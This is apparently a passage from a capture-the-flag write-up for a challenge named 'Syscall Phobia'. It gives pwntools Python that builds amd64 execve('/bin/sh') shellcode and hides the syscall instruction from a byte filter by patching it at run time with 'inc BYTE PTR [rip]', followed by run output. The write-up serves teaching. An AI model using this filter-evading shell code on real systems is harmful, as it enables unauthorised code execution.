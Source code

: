 ``` shell
  1d:   6a 04                   push   0x4
  1f:   59                      pop    ecx
  20:   01 e1                   add    ecx, esp
  22:   51                      push   ecx
  23:   89 e1                   mov    ecx, esp
  25:   31 d2                   xor    edx, edx
  27:   6a 0b                   push   0xb
  29:   58                      pop    eax
  2a:   cd 80                   int    0x80
```

We simply replace the last `int 0x80` instruction with `inc    BYTE PTR [rip]`, and append `0e 05` to the end of our shellcode:
```python
shellcode = asm(
        "push   0x68;"
        "movabs rax, 0x732f2f2f6e69622f;"
        "push   rax;"
        "mov    rdi, rsp;"
        "push   0x1016972;"
        "xor    DWORD PTR [rsp], 0x1010101;"
        "xor    esi, esi;"
        "push   rsi;"
        "push   0x8;"
        "pop    rsi;"
        "add    rsi, rsp;"
        "push   rsi;"
        "mov    rsi, rsp;"
        "xor    edx, edx;"
        "push   0x3b;"
        "pop    rax;"
        "inc    BYTE PTR [rip];",
        arch = 'amd64', os = 'linux'
    )

a = ['0x{:02x}'.format(u8(a))[2:] for a in shellcode]   # Converting shellcode to hex string
a += ["0e", "05", "90", "90", "90"]                     # add syscall + a few NOPs
payload = ''.join(a)
```

When the binary executes this shellcode, it pops a shell:
```shell
$ python solve.py
[*] '/mnt/c/Users/Brandon Chong/Downloads/writeup stuffs/Syscall Phobia/syscall-phobia'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/mnt/c/Users/Brandon Chong/Downloads/writeup stuffs/Syscall Phobia/syscall-phobia': pid 3632
[*] Paused (press any to continue)
   0:   6a 68                   push   0x68
   2:   48 b8 2f 62 69 6e 2f    movabs rax, 0x732f2f2f6e69622f
   9:   2f 2f 73
   c:   50                      push   rax
   d:   48 89 e7                mov    rdi, rsp
  10:   68 72 69 01 01          push   0x1016972
  15:   81 34 24 01 01 01 01    xor    DWORD PTR [rsp], 0x1010101
  1c:   31 f6                   xor    esi, esi
  1e:   56                      push   rsi
  1f:   6a 08                   push   0x8
  21:   5e                      pop    rsi
  22:   48 01 e6                add    rsi, rsp
```